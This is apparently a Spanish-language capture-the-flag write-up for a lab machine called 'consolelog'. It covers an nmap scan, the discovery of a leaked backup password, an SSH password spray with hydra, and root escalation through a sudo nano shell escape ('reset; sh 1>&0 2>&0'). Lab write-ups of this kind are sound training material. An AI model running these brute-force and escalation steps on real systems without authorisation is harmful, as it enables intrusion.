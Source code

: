 ```yaml
---
Maquina: consolelog
SO: Linux
Explotación: Análisis web y fuerza bruta
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - linux
  - escala_privs
  - ssh
  - web
  - fuerza_bruta
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sVC -Pn 172.17.0.2
```

![[Pasted image 20241104110701.png]]

Curiosa esta máquina, hay puertos abiertos no muy comunes.. Vamos primero a echar un ojo al puerto más común y con seguramente menos vulnerabilidades, el puerto 80.

![[Pasted image 20241104110820.png]]

No parece haber mucha información, ni siquiera en el código fuente. Pero por si acaso voy a realizar una búsqueda de subdirectorios.

![[Pasted image 20241104111007.png]]

Curioso documento... me hace sospechar lo de "lapassworddebackupmaschingonadetodas", sinceramente mucha confianza no me da.

Investigando un poco más he dado con lo siguiente, pero ya sabemos a que hace referencia.

![[Pasted image 20241104112234.png]]

Vamos a probar a hacer fuerza bruta al SSH con la passwd "lapassworddebackupmaschingonadetodas" a ver si así podemos intentar acceder

```bash
hydra -L ~/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.2 -t 16 -s 5000
```

Y parece ser que funciona ->

![[Pasted image 20241104112610.png]]

Pues vamos a probar a conectarnos.

```bash
ssh 172.17.0.2 -p 5000 -l lovely
```

![[Pasted image 20241104112742.png]]

Estamos dentro y con el usuario lovely. Ahora vamos a ver los permisos que tiene este usuario.

![[Pasted image 20241104112822.png]]

Pues vamos a ver si se puede escalar privs con nano.

![[Pasted image 20241104113032.png]]

Parece que si que podemos escalar privs... Estos son los pasos realizados:

```bash
sudo nano
^R^X #Esto es con la tecla ctrl + la letra
reset; sh 1>&0 2>&0 #Importante ejecutar todo el comando en la misma linea
```

Y listo otra máquina para la colección ;).




